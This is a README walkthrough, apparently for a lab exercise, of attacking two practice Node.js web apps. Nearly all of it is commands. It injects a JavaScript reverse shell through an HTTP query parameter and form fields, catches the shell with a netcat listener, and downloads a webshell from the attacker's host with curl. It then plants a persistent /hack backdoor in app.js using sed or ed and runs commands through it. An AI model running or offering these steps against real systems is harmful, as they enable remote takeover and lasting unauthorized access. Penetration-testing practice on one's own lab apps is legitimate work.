



<h1 align="center">1 Initial Stage</h2>

`(h)` = hacker terminal, `(v)` = netcat reverse shell, `tcs` = The Cutlery Shop, `wity` = What Is The Year.

## 1.1 Start a netcat listener
Before performing the attack, the hacker machine must host a web server. Which will listen for [reverse tcp](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) connections, the following example uses [openbsd-netcat](https://man.openbsd.org/nc.1).
```
(h) $ nc -lvnp 8000
```

## 1.2 Customise payload details
Open a terminal and find out the local IPv4 address of your hacker machine.
```
(h) $ ip addr
```
Open [revshell.js](./revshell.js) and modify it according to the IPv4 address of your hacker machine.
```
# revshell.js
... c.connect(8000,<hacker-ip>) ...
```

## 1.3 Injecting payload into "What Is The Year" web app
### Method 1 - Copy Paste
Copy the contents of the [revshell.js](./revshell.js) file.
```
(h) $ xclip -in payload/Linux/revshell.js -selection clipboard
```
And paste the contents of [revshell.js](revshell.js) into the `year` HTTP GET Query
```
(h) $ curl -G --data-urlencode "year=<payload>" http://<victim-ip>:3000
```
### Method 2 - Server/Client
Host a server in the `payload/Linux` directory from the hacker machine
```
(h) $ cd payload/Linux
(h) $ python -m http.server 5000
```
Then use cURL to inject the payload to the victim web server
```
(h) $ curl -G --data-urlencode "year=$(curl -s http://<hacker-ip>:5000/revshell.js)" http://<victim-ip>:3000
```

## 1.4 Injecting payload into "The Cutlery Shop" web app
Using the form fields of the application, you can perform a string escape on the `Name` field, and inject the contents of [revshell.js](./revshell.js) there.



Alternatively, you can simply paste the payload into the `Price` field, since it does not take a string input.



## 1.5 Result
If successful, the hacker machine will receive a socket output similar to what is shown below:
```
% nc -lnvp 8000
Listening on 0.0.0.0 8000
Connection received on 127.0.0.1 44598
$ ls
README.md
app.js
node_modules
package-lock.json
package.json
public
views
```

<h1 align="center">2 Persistence Stage</h2>

## 2.1 Webshell Backdoor
The reverse shell provides us the privilege of the compromised user, but it is a temporary foothold in the system. To gain persistence, we can introduce a webshell as a secondary entry into the system.

The [wity-webshell.js](../Webshells/wity-webshell.js) and [tcs-webshell.js](../Webshells/tcs-webshell.js) files contains a snippet of code prepared in advance, which adds a webshell to the NodeJS application. You must use the appropriate webshell file matching the name of the web app you are running.

## 2.2 Creating Webshell File
It is slightly inconvenient to create text files with very specific contents from a primitive reverse shell. Here are some of the techniques that I use to create malicious files on the server.

### Method 1 - Cat Command
Using the `cat` linux command create a file on the victim's server, by manually typing or pasting the contents of webshell file, excluding the `...` like so:
```
(v) $ cat > webshell.js <<EOF
... PASTE PAYLOAD HERE ...
EOF
```

### Method 2 - File Upload
Host a web server from the `payload` directory
```
(h) $ cd payload
(h) $ php -S 0.0.0.0:5000
```
Then use the reverse shell to download it on the victim's machine.  
```
(v) $ curl -O http://<hacker-ip>:5000/webshell.js
```

## 2.3 Editing Important Files
The most important file in both web applications is the `app.js` file. Because it contains all the routes to the frontend pages, but in a real scenario, files of interests may vary. 

Here are two methods of editing files without the help of popular command line text editors such as [vim](https://www.vim.org/) or [nano](https://www.nano-editor.org/).

### Method 1 - Sed (Stream Editor)
Using [GNU sed](https://en.wikipedia.org/wiki/Sed) we can output the contents of `webshell.js` on a specific line number in the `app.js` file. The following will tell `sed` to go to line 39 before the `app.listen()` call, and READ the contents of `webshell.js` into it.
```
(v) $ sed -i "39r webshell.js" app.js
```

### Method 2 - Ed (Line Editor)
[GNU ed](https://en.wikipedia.org/wiki/Ed_(text_editor)) is also a viable alternative to output the contents of webshell payload to the appropriate line number. But unlike `sed` which is utilised to automate changes to files, `ed` is developed by Ken Thompson for human-centric usage on paper roll terminals back in August 1969.
```
(v) $ ed -s app.js <<EOF
(v) $ 39r webshell.js
(v) $ w
(v) $ q
(v) $ EOF
```

## Using The Backdoor

The payload will spawn a webshell which you can access from the `/hack` route in `http://<victim-ip>:3000`. Commands can be executed by appending them in front of the `cmd` HTTP GET Query.

Using the cURL program
```
(h) $ curl -G --data-urlencode "cmd=<command>" http://<victim-ip>:3000/hack
```

Using a web browser
```
http://<victim-ip>:3000/hack?cmd=<command>
```

### Result

